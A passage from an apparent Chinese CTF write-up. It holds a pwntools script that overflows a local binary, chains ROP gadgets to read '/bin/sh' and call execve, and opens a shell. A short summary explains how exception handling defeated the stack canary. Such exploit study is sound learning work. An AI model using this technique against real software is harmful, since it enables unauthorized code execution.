 ```bash
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401b6e')

backdoor_try = 0x401B55  
io.recvuntil("called")
pop_rdi = 0x000000000040291c #: pop rdi ; ret
pop_rsi = 0x0000000000404009 #: pop rsi ; ret
pop_rdx_rbx = 0x000000000049775b #: pop rdx ; pop rbx ; ret
pop_rax = 0x0000000000462f37 #: pop rax ; ret
syscall = 0x000000000040fac9 #: syscall
read_addr = 0x4624D0
binsh = 0x4d7000 #
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(binsh)
payload += p64(pop_rdx_rbx)
payload += p64(0x8)
payload += p64(0)
payload += p64(read_addr)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall)
io.send(payload)
sleep(1)
io.sendline('/bin/sh\x00')

io.interactive()
```

### 小结

我们看到了在不使用 rbp 作为栈帧寄存器的情况下，可以利用异常处理的特性，使得 canary 防护无效化，大幅降低漏洞利用难度，配合传统栈溢出手法即可。几个关键点如下：
